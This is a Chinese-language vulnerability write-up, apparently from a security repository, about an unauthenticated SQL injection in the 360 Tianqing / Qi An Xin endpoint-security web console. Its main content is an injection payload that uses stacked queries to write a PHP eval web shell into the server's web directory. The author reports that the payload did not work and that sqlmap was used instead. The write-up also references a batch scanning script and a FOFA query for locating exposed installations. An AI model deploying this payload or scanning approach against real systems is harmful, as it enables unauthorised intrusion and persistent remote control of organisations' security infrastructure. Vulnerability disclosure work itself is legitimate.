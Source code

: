 # 0x00 漏洞介绍
360天擎：一套终端安全管理系统，包括客户端、Web端，漏洞出现在Web端，一个可以未授权访问的API存在SQL注入漏洞，可导致写入Webshell，现在天擎系统归属奇安信，常称为奇安信天擎，官网：https://www.qianxin.com/product/detail/pid/49

# 0x01 复现环境
复现环境：内网环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
写入Webshell的payload如下：
```
/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--
```
不过并没有成功

我使用sqlmap进行复现，如下图  
![image](./pic/0.png)

# 0x05 批量脚本
用法：
```
python3 360天擎-SQL注入-Vuln-Batch-Detect.py -h
```
fofa语法：
```
app="360天擎终端安全管理系统"
```
效果如下  
![image](./pic/1.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw
